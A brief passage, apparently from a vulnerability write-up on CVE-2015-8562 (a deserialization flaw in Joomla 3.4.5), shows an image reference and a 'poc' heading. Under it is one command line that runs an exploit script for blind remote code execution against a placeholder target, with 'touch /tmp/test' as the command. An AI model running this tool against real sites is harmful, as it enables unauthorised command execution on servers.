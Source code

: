 ![](resource/(CVE-2015-8562)Joomla3.4.5反序列化漏洞/media/rId26.png)

### poc

Blind RCE:

    python joomla-cve-2015-8562.py -t http://<target_ip>/ --cmd
    $ touch /tmp/test

